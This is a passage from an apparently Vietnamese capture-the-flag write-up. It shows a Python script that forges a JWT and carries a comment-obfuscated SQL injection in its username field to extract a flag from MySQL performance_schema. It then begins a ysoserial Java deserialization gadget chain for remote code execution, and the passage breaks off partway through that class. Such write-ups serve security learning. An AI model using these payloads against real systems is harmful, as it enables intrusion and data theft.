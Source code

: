   ```
-----END RSA PRIVATE KEY-----
"""
def gen_jwt():
    token = jwt.encode({"username": "admin'union/**/select/**/1,2,query_sample_text/**/from/**/performance_schema.events_statements_summary_by_digest/**/where/**/query_sample_text/**/like/**/'%Wanna%", 'now': 1632536761.4651732}, private_key, algorithm='RS256')
    # print(str(token))
    return token.decode("utf-8")

def get_flag():
    new_jwt = gen_jwt()
    data = {"jwt":new_jwt}
    r = requests.post(url+'admin', data=data)
    text_res = r.text
    flag = text_res.split(',')
    for i in flag:
        if "Wanna.One{" in i:
            print(i)
            break

get_flag()
```

- Ở đây mình sử dụng `/**/` để bypass space, và để escape dấu `'` ở cuối thì mình sẽ kiểu `select * from users where uname = 'admin union 1,2,'3'` => dấu `'` ở bao quanh số 3 để biến 3 thành một str.

Flag:

![image](https://user-images.githubusercontent.com/54855855/146822708-677f4a94-bf42-4153-89f9-d4726f0e2b41.png)

- Query trên mình thao khảo ở đây [Statement Summary Tables](https://dev.mysql.com/doc/refman/8.0/en/performance-schema-statement-summary-tables.html) và [Performance Schema Statement Digests](https://dev.mysql.com/doc/refman/5.7/en/performance-schema-statement-digests.html)

## Challenge java for beginer

- Script tạo gadget chain:

```java
package ysoserial.payloads;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.ClassFiles;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.util.Base64;
import java.util.PriorityQueue;
import java.util.Queue;

@SuppressWarnings({ "rawtypes", "unchecked" })
@Dependencies({ "org.apache.commons:commons-collections4:4.0" })
public class UIT_RCE extends PayloadRunner implements ObjectPayload<Queue<Object>> {
    @Override
```